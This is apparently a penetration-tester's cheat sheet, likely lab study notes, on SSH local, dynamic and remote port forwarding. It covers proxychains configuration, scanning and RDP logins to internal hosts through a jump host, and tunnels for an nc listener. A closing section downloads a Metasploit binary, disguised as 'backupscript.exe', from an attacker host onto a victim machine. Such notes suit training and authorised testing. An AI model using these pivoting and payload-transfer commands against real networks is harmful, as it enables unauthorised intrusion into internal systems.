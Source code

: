 ```yaml
---
description: This is more of a cheat sheet for commands.
---
```


# SSH

## Local Port Forwarding

### Local Port Forwarding

```bash
 ssh -L 1234:localhost:3306 Ubuntu@10.129.202.64
```

Opens a listener on local port 1234 (our machine) and sends all traffic to remote port 3306 (10.129.202.64).

### Forwarding multiple ports

```bash
 ssh -L 1234:localhost:3306 8080:localhost:80 ubuntu@10.129.202.64
```

This SSH command connects to a remote machine and sets up two local port forwards:

1. Local port 1234 forwards to port 3306 on the remote machine (typically MySQL).
2. Local port 8080 forwards to port 80 on the remote machine (typically HTTP).

### Local Port Forwarding Example

<figure><img src="../../.gitbook/assets/Screenshot 2023-10-03 194415.png" alt=""><figcaption></figcaption></figure>

```bash
jumphost@ubuntu ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215
```

Opens a listener on port 4455 (CONFULENCE01 Jump Host) and forwards all traffic through 10.4.50.215 to 172.16.50.217:445. (PGDATABASE01).

_<mark style="color:red;">**NOTE**</mark>_: **-N** flag is means execute no remote commands. No shell will be opened.

## Dynamic Port Forwarding - Tunneling over SOCKS proxy

Local port forwarding is limited to one socket per SSH connection. OpenSSH allows for dynamic port forwarding. From a single listening port, packets can be forwarded to any socket that the server can route to. **This works because the listening port creates a SOCKS proxy.**

### D_**ynamic Port Forwarding from Attack Host:**_

```shell-session
attacker@kali$ ssh -D 9050 ubuntu@10.129.202.64
```

_<mark style="color:red;">**NOTE:**</mark>_ The **-D** flag enables dynamic port forwarding & ssh acts as a SOCKS server.

```bash
$ tail -4 /etc/proxychains.conf

# meanwile
# defaults set to "tor"
socks4 	127.0.0.1 9050
```

### D_**ynamic Port Forwarding From Jump Host:**_

```shell-session
jump-host@ubuntu$ ssh -D 9050 ubuntu@172.167.32.11
```

```bash
┌──(kali㉿kali)-[~]
└─$ tail -f /etc/proxychains4.conf
# defaults set to "tor"
#socks4         127.0.0.1 9050
socks5  192.168.198.63  9050 # Ip address of jump host

```

### Using tools with Proxychains:

_**Nmap:**_&#x20;

This is my preferred nmap command to run. (172.16.50.217 is in internal network)

```
kali@kali:~$ proxychains nmap -vvv -sT --top-ports=20 -Pn 172.16.50.217
```

_**xfreerdp:**_

```bash
kali@kali proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

## Remote Port Forwarding

Also known as **Reverse Port Forwarding**. In real world scenarios it is likely we'll encounter a firewall that heavily restricts inbound connections. Outbound connections however, are less likely to be blocked.&#x20;

<figure><img src="../../.gitbook/assets/Screenshot 2023-10-04 153523.png" alt=""><figcaption></figcaption></figure>

### Start SSH Service

```shell-session
kali:~$ sudo systemctl start ssh
```

### Connect back to Kali Host

The below command opens a port on localhost 2345 on our kali machine. All traffic is forwarded through the jump host to 10.4.50.215:5432.

<pre class="language-shell-session"><code class="lang-shell-session"><strong>victim@jump-host$ ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
</strong></code></pre>

### Verifying Port Forward

As we can see, our kali box is listening on 127.0.0.1 2345

```
kali@kali$ ss -ntlpu                     
Netid            State             Recv-Q            Send-Q                       Local Address:Port                          Peer Address:Port            Process            
udp              UNCONN            0                 0                                  0.0.0.0:52704                              0.0.0.0:*                                  
tcp              LISTEN            0                 128                              127.0.0.1:2345                               0.0.0.0:*                                  
tcp              LISTEN            0                 128                                0.0.0.0:22                                 0.0.0.0:*                                  
tcp              LISTEN            0                 128                                   [::]:22                                    [::]:*      
```

## Remote Dynamic Port Forwarding

_<mark style="color:red;">**NOTE:**</mark>_ This tends to be the most optimal setup for port forwarding during engagements. We get all the benefits from Dynamic Port forwarding along with the remote configurations.&#x20;

### Create Dynamic Remote Port Forward

Creating a Dynamic Remote Port Forward is similar to creating a Remote port forward. We use the -R command but only with one port. We do not specify and address! Neither do we use -D!

```shell-session
jumphost@ubuntu$ ssh -N -R 9998 kali@192.168.118.4
```

### Update SOCKS Proxy - proxychains

```bash
kali@kali:~$ tail /etc/proxychains4.conf
#       proxy types: http, socks4, socks5, raw
#         * raw: The traffic is simply forwarded to the proxy without modification.
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 127.0.0.1 9998 # IP address is localhost 127.0.0.1
```

### Verifying Port Forward

As we can see, our kali box is listening on 127.0.0.1 9998

```shell-session
kali@kali$ ss -ntlpu                     
Netid            State             Recv-Q            Send-Q                       Local Address:Port                          Peer Address:Port            Process            
udp              UNCONN            0                 0                                  0.0.0.0:52704                              0.0.0.0:*                                  
tcp              LISTEN            0                 128                              127.0.0.1:9998                               0.0.0.0:*                                  
tcp              LISTEN            0                 128                                0.0.0.0:22                                 0.0.0.0:*                                  
tcp              LISTEN            0                 128                                   [::]:22
```



## Additional Info

### Transferring Metasploit Binary to Victim (on internal network).

We may need to transfer a binary to a machine we've gained access to so we can port forward.

```powershell
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```



### Tunneling to Kali Web Server

If the host has ssh we can connect back to our kali box to tunnel traffic.

This is a command to tunnel all traffic through a jump host back to our kali web server. This is useful when downloading tool to a host inside an internal network.&#x20;

```powershell
C:\Users\web_svc>ssh -N -L 0.0.0.0:1234:192.168.45.186:8000 kali@192.168.45.186
```

### Tunneling NC Listener

Like the above command, we can do the same to create a tunnel for a nc listener

```powershell
C:\Users\web_svc>ssh -N -L 0.0.0.0:1234:192.168.45.186:4444 kali@192.168.45.186
```

